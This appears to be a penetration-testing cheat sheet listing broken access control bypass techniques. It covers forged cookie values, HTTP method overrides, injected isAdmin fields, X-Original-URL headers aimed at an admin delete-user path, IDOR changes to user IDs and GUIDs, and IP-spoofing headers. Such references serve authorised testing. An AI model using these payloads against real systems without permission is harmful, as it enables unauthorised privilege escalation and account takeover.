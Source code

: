 ```yaml
---
title: Broken Access Control Examples
desc: Examples of Broken Access Controls. Bypass 401, 403 responses.
tags: [AccessControl, API, IDOR, PrivEsc, Web]
alts: [IDORExamples]
website: 
render_with_liquid: false
---
```


## Change Cookie Values

```sh
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
```

<br />

## Change Request Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## Change POST Body

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## Change User ID

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator
```

<br />

## Change GUID

GUID cannot be guessed but it may be found somewhere in the website.

```
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br />

## IP Spoofing & Fuzzing in Request Header

```sh
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```
